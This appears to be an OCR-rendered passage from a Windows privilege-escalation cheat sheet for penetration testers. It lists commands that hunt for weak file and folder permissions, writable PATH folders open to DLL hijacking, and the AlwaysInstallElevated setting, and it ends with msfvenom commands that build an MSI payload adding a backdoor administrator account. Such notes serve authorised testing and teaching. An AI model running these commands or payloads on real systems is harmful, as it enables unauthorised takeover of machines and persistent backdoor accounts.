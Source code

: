      Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
    ```

    * [ ] Write permissions



    ```
     # using accesschk.exe
     accesschk.exe /accepteula
     
     # Find all weak folder permissions per drive.
     accesschk.exe -uwdqs Users c:\
     accesschk.exe -uwdqs "Authenticated Users" c:\
     accesschk.exe -uwdqs "Everyone" c:\
     
     # Find all weak file permissions per drive.
     accesschk.exe -uwqs Users c:\*.*
     accesschk.exe -uwqs "Authenticated Users" c:\*.*
     accesschk.exe -uwdqs "Everyone" c:\*.*
     
     # using icalcs
     icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
     icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
     
     # using Powershell
     Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

     Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
    ```
* PATH DLL Hijacking

```
 # having write permissions inside a folder present ON PATH could bring to DLL hijacking
 for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

* AlwaysInstallElevated set in Registry

```
 # if both are enabled (set to 0x1), it's possible to execute
 # any .msi as NT AUTHORITY\SYSTEM
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 
 # check with msf
 exploit/windows/local/always_install_elevated
 
 # generate payload with msfvenom
 # no uac format
 msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
 # using the msiexec the uac wont be prompted
 msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
 
 # install .msi
```